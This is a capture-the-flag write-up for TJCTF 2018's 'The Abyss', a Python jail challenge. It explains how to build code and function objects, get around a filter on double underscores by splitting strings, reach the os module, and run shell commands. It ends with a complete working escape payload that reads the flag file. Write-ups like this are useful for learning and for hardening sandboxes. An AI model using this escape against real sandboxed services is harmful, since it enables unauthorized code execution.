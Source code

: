 ```yaml
---
layout: post
title: TJCTF 2018
---
```


I played TJCTF as part of the team `pearl`, and we solved every challenge, placing second overall. The Abyss was a Python jail challenge worth 160 points &mdash; since I really enjoy this type of challenge, I figured it was worth writing up.

### The Abyss

You are able to netcat to a server where you get a Python prompt that execs whatever you enter. However, what you can run is heavily filtered and dangerous functions are filtered from builtins.

The biggest restriction is nothing with `__`, which prevents most Python jail escapes from working. The solution involves creating a code object, and using that to create a function object that you can run to get the flag.

First you have to get constructors for both code and function objects. This can be done through lambda functions: `type(lambda: 0)` for functions and `type((labmda: 0).func_code)` for code objects.

The next step is to create a code object. You can look at the arguments for the constructor with `help(type((lambda: 0).func_code))`. The parameters can easily be matched up with the properties of the `func_code` property of any function, so you can just copy them from a function you create locally that does what you want.

Since it can be assumed the goal is to get a shell, all you need is the `os` module (you can use `os.system`). The `os` module can be gotten through something like `().__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os']`. Simply create a function that returns that and create a code object with the method described above.

The next step is copying the function properties. Once again, you can do the same thing and just find the properties corresponding to the arguments of the constructor.

During this process you will notice some `__` strings, but you can just separate them into single underscores and concatenate so they aren't noticed. Ultimately, you will get a payload that looks something like:
```python
type(lambda: 0)(type((lambda: 0).func_code)(0, 1, 4, 67, 'g\x00\x00d\x04\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00D]\x1b\x00}\x00\x00|\x00\x00j\x03\x00d\x01\x00k\x02\x00r\x13\x00|\x00\x00^\x02\x00q\x13\x00d\x02\x00\x19j\x04\x00j\x05\x00j\x06\x00d\x03\x00\x19j\x07\x00S', (None, 'catch_warnings', 0, 'linecache', ()), ('_''_class_''_', '_''_base_''_', '_''_subclasses_''_', '_''_name_''_', '_''_re''pr_''_', 'im_func', 'func_globals', 'os'), ('x',), '<stdin>', 'os', 1, ''), {'_''_builtins_''_': globals()['_''_builtins_''_']})().system('cat flag.txt')
```
